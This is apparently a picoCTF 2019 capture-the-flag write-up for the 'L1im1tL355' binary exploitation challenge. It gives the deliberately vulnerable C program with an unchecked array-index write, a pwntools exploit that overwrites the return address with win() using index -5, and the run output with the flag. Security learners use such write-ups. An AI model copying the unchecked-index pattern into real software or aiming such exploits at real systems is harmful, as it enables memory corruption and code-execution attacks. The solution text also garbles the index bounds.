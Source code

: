 # L1im1tL355
Binary Exploitation, 400 points

## Description:
> Just pwn this program and get a flag.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define FLAG_BUFFER 128

void win() {
  char buf[FLAG_BUFFER];
  FILE *f = fopen("flag.txt","r");
  fgets(buf,FLAG_BUFFER,f);
  puts(buf);
  fflush(stdout);
}

void replaceIntegerInArrayAtIndex(unsigned int *array, int index, int value) {
   array[index] = value;
}

int main(int argc, char *argv[])
{
   int index;
   int value;
   int array[666];
   puts("Input the integer value you want to put in the array\n");
   scanf("%d",&value);
   fgetc(stdin);
   puts("Input the index in which you want to put the value\n");
   scanf("%d",&index);
   replaceIntegerInArrayAtIndex(array,index,value);
   exit(0);
}
```

## Solution:

This program declares an array on the stack, then allows us to write a DWORD to any array index. If we choose an index between 0 and 666/4, we'll end up writing to the array. However, the program does not check that we enter a legal index, and the index we request to write to can be larger than 666/4 or smaller than 0.

Since the array is on the stack, the easiest way to exploit this is to provide a negative index and overwrite the function return address.

In our case, we need to provide a value of `-5` (found using trial and error). The program will execute `array[-5] = value` which is equivalent to `*(int*)(array + ( (-5)*sizeof(int) ) ) = value`. We'll provide the `value` of `win()`, which will print the flag.

```python
# First, generate a pwntools template using:
# pwn template --host 2019shell1.picoctf.com --user dvdalt --path /problems/l1im1tl355_4_b2111fe5737c985221bac06a80d6d6c7/vuln

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

import os

if shell is not None:
    shell.set_working_directory(os.path.dirname(remote_path))

io = start()

io.sendlineafter("Input the integer value you want to put in the array", str(exe.symbols["win"]))
io.sendlineafter("Input the index in which you want to put the value", str(-5))

print io.recvall()
```

Output:
```console
root@kali:/media/sf_CTFs/pico/L1im1tL355# python exploit.py
[*] '/media/sf_CTFs/pico/L1im1tL355/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] dvdalt@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Opening new channel: 'pwd': Done
[+] Receiving all data: Done (13B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/tmp/tmp.6XNY7d0Y0s'
[+] Opening new channel: 'ln -s /home/dvdalt/* .': Done
[+] Receiving all data: Done (0B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/problems/l1im1tl355_4_b2111fe5737c985221bac06a80d6d6c7'
[+] Starting remote process '/problems/l1im1tl355_4_b2111fe5737c985221bac06a80d6d6c7/vuln' on 2019shell1.picoctf.com: pid 1343635
[+] Receiving all data: Done (34B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1343635)


picoCTF{str1nG_CH3353_5243a217}
```